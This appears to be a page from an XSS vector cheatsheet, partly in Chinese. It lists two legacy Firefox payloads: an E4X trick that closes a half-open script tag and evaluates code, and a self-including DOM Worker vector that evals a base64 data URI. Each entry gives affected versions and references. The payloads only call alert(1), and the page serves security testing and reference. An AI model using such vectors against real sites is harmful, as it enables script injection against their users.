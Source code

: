 ### E4X used to close an opening &lt;SCRIPT&gt; tag and {} evaluation[#75](#75)[test](test/#75)

In this example an E4X object is being used to close a half-open &lt;SCRIPT&gt; tag and evaluate code in the global scope afterwards via the E4X curly bracket delimiters. This technique will not work anymore as soon Firefox uses the already integrated HTML5 parser (html5.enable=true)


```
<script<{alert(1)}/></script </>
```

*   firefox 1.5
*   firefox 3.6.28

*   xss
*   javascript
*   e4x
*   script
*   parser
*   regex

*   [https://developer.mozilla.org/en/E4X](https://developer.mozilla.org/en/E4X)
*   [https://bugzilla.mozilla.org/show_bug.cgi?id=564706](https://bugzilla.mozilla.org/show_bug.cgi?id=564706)

reporter：.mario, Gareth

## DOM属性与方法的攻击向量

### 通过DOM Worker包含上下文本身进行XSS[#4](#4)[test](test/#4)

这是一个self-including的例子,通过DOM worker包含上下文的方式触发事件引起脚本执行.


```
0?<script>Worker("#").onmessage=function(_)eval(_.data)</script> :postMessage(importScripts('data:;base64,cG9zdE1lc3NhZ2UoJ2FsZXJ0KDEpJyk'))
```

*   firefox 3.5
*   firefox 15.0

*   xss
*   dom
*   firefox
*   worker
*   self-inclusion
*   e4x

*   [https://developer.mozilla.org/En/Using_web_workers](https://developer.mozilla.org/En/Using_web_workers)

reporter：.mario

### Firefox crypto 对象 - 隐式eval()[#5](#5)[test](test/#5)
